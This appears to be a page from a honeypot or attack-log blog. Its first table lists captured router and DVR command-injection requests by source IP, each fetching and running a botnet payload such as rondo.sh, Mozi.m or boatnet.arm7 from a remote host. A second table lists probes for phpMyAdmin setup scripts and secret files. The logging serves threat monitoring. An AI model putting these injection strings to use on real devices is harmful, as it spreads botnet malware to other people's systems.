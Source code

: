 | 45.135.194.34   | GET /cgi-bin/luci/;stok=/locale?form=country&operation=write&country=$(killall+-9+mipsel+mpsl%3B%28wget+-O-+http%3A%2F%2F14.103.145.202%2Frondo.sh%7C%7Cbusybox+wget+-O-+http%3A%2F%2F14.103.145.202%2Frondo.sh%29+%7C+sh+-s+tplink%3B) HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                                                                        |
| 139.5.0.235     | GET /setup.cgi?next_file=netgear.cfg&todo=syscmd&cmd=rm+-rf+/tmp/*;wget+http://139.5.0.235:37799/Mozi.m+-O+/tmp/netgear;sh+netgear&curpath=/&currentsetting.htm=1 HTTP/1.0                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                              |
| 144.172.116.95  | POST /device.rsp?opt=sys&cmd=___S_O_S_T_R_E_A_MAX___&mdb=sos&mdc=cd%20%2Ftmp%3Brm%20boatnet.arm7%3B%20wget%20http%3A%2F%2F160.187.246.150%2Fhiddenbin%2Fboatnet.arm7%3B%20chmod%20777%20%2A%3B%20.%2Fboatnet.arm7%20tbk HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                                                                                        |
| 87.121.84.34    | GET /cgi-bin/luci/;stok=/locale?form=country&operation=write&country=$(wget+http://31.59.40.187/x/tplink+-O-|sh) HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                               |
| 45.135.194.34   | GET /cgi-bin/luci/;stok=/locale?form=country&operation=write&country=$(killall+-9+mipsel+mpsl%3B%28wget+-O-+http%3A%2F%2F14.103.145.211%2Frondo.sh%7C%7Cbusybox+wget+-O-+http%3A%2F%2F14.103.145.211%2Frondo.sh%29+%7C+sh+-s+tplink%3B) HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                                                                        |
| 144.172.103.59  | POST /device.rsp?opt=sys&cmd=___S_O_S_T_R_E_A_MAX___&mdb=sos&mdc=cd%20%2Ftmp%3Brm%20boatnet.arm7%3B%20wget%20http%3A%2F%2F160.187.246.111%2Fhiddenbin%2Fboatnet.arm7%3B%20chmod%20777%20%2A%3B%20.%2Fboatnet.arm7%20tbk HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                                                                                        |

## request

The list of requests presented here are those that have not yet been yet integrated into the [request database.](https://blog.shoggoth.industries/database/request_database/)

|     |   number_of_occurence | request                                                    |
|----:|----------------------:|:-----------------------------------------------------------|
|  51 |                     2 | HEAD /web/phpMyAdmin/scripts/setup.php HTTP/1.1            |
|  57 |                     2 | HEAD /phpMyAdmin-2.5.5-pl1/scripts/setup.php HTTP/1.1      |
|  58 |                     2 | GET /phpMyAdmin-2.11.0/scripts/setup.php HTTP/1.1          |
|  60 |                     2 | GET /admin/phpmyadmin/scripts/setup.txt HTTP/1.1           |
|  63 |                     2 | HEAD /phpMyAdmin-2.5.5/scripts/setup.php HTTP/1.1          |
|  64 |                     2 | HEAD /SQL/scripts/setup.php HTTP/1.1                       |
|  65 |                     2 | GET /phpMyAdmin-2.11.3/scripts/setup.php HTTP/1.1          |
|  66 |                     2 | HEAD /phpMyAdmin-2.11.3/scripts/setup.php HTTP/1.1         |
|  67 |                     2 | HEAD /phpmanager/scripts/setup.php HTTP/1.1                |
|  72 |                     2 | GET /secrets.GITHUB_ENV HTTP/1.1                           |
|  73 |                     2 | GET /env.yaml HTTP/1.1                                     |
|  75 |                     2 | GET /aws-exports.js HTTP/1.1                               |
|  76 |                     2 | GET /smtp.properties HTTP/1.1                              |
|  77 |                     2 | GET /smtp-secret.yaml HTTP/1.1                             |
|  78 |                     2 | GET /webdb/scripts/setup.php HTTP/1.1                      |